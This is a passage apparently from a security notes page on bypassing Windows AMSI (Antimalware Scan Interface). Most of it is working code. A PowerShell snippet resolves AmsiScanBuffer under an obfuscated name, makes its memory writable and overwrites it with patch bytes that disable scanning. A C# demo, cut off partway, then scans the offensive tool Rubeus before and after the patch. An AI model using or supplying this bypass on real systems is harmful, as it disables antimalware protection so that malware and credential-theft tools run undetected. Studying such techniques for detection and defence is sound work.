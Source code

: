 ```powershell
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

[IntPtr]$asb = lookupFunc amsi.dll ("Ams"+"iS"+"can"+"Buf"+"fer")
$oldProtect = 0
$vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($asb, [uint32]6, 0x40, [ref]$oldProtect)
$patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $asb, 6)
$vp.Invoke($asb, [uint32]6, 0x20, [ref]$oldProtect)
```
{% endcode %}


#### AmsiScanBuffer Usage Example

{% code title="beforeAndAfterPatch.ps1" %}
```csharp
using System;
using System.Runtime.InteropServices;
using System.Text;

namespace ConsoleApp
{
    class Program
    {
        static IntPtr _amsiContext;
        static IntPtr _amsiSession;

        static void Main(string[] args)
        {
            uint result;

            // Initialize the AMSI API.
            result = AmsiInitialize("Demo App", out _amsiContext);

            // Opens a session within which multiple scan requests can be correlated.
            result = AmsiOpenSession(_amsiContext, out _amsiSession);

            // Test sample
            //var sample = Encoding.UTF8.GetBytes(@"X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*");
            var sample = File.ReadAllBytes(@"C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe");

            // Send sample to AMSI
            var amsiResult = ScanBuffer(sample);

            Console.WriteLine($"Before patch: {amsiResult}");

            var modules = Process.GetCurrentProcess().Modules;
            var hAmsi = IntPtr.Zero;

            foreach (ProcessModule module in modules)
            {
```